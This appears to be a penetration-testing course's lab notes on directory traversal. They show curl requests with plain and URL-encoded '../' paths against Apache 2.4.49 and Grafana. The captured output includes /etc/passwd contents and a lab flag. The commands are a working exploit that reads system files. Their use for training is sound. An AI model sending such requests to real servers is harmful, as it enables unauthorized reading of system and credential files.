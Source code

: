 # Encoding Special Characters

Using "../" to leverage the Directory Traversal vulnerability in Apache 2.4.49
>``` shell
>kali@kali:~$ curl http://192.168.50.16/cgi-bin/../../../../etc/passwd
>
># ========== Expected Result ==========
><!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
><html><head>
><title>404 Not Found</title>
></head><body>
><h1>Not Found</h1>
><p>The requested URL was not found on this server.</p>
></body></html>
># =====================================
>
>>kali@kali:~$ curl http://192.168.50.16/cgi-bin/../../../../../../../../../../etc/passwd
>
># ========== Expected Result ==========
><!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
><html><head>
><title>404 Not Found</title>
></head><body>
><h1>Not Found</h1>
><p>The requested URL was not found on this server.</p>
></body></html>
># =====================================
>```

Using encoded dots for Directory Traversal
>``` shell
>kali@kali:~$ curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>
># ========== Expected Result ==========
>root:x:0:0:root:/root:/bin/bash
>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
>bin:x:2:2:bin:/bin:/usr/sbin/nologin
>sys:x:3:3:sys:/dev:/usr/sbin/nologin
>...
>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
>alfred:x:1000:1000::/home/alfred:/bin/bash
># =====================================
>```

Lab 1 - In this section, we used URL encoding to exploit the directory traversal vulnerability in Apache 2.4.49 on VM #1. Use Burp or curl to display the contents of the /opt/passwords file via directory traversal in the vulnerable Apache web server. Remember to use URL encoding for the directory traversal attack. Find the flag in the output of the file.
>

Lab 2 - Grafana is running on port 3000 on VM #1. The version running is vulnerable to the same directory traversal vulnerability as in the previous section. While URL encoding is not needed to perform a successful directory traversal attack, experiment with URL encoding different characters of your request to display the contents of /etc/passwd. Once you have a working request utilizing URL encoding, obtain the flag by displaying the contents of /opt/install.txt.
>``` shell
># Exploiting Grafana directory traversal to read /opt/install.txt
>kali@kali:~$ curl -v --path-as-is "http://192.168.179.16:3000/public/plugins/alertlist/../../../../../../../../../../../../opt/install.txt"
>
>># ========== Expected Result ==========
>*   Trying 192.168.179.16:3000...
>* Connected to 192.168.179.16 (192.168.179.16) port 3000
>* using HTTP/1.x
>> GET /public/plugins/alertlist/../../../../../../../../../../../../opt/install.txt HTTP/1.1
>> Host: 192.168.179.16:3000
>> User-Agent: curl/8.13.0
>> Accept: */*
>> 
>* Request completely sent off
>< HTTP/1.1 200 OK
>< Accept-Ranges: bytes
>< Cache-Control: no-cache
>< Content-Length: 37
>< Content-Type: text/plain; charset=utf-8
>< Expires: -1
>< Last-Modified: Fri, 31 Oct 2025 18:37:31 GMT
>< Pragma: no-cache
>< X-Content-Type-Options: nosniff
>< X-Frame-Options: deny
>< X-Xss-Protection: 1; mode=block
>< Date: Fri, 31 Oct 2025 19:22:41 GMT
>< 
>OS{6eecdfe0347698362a33150e7a4fcee3}
>* Connection #0 to host 192.168.179.16 left intact
># =====================================
>```
>OS{6eecdfe0347698362a33150e7a4fcee3}
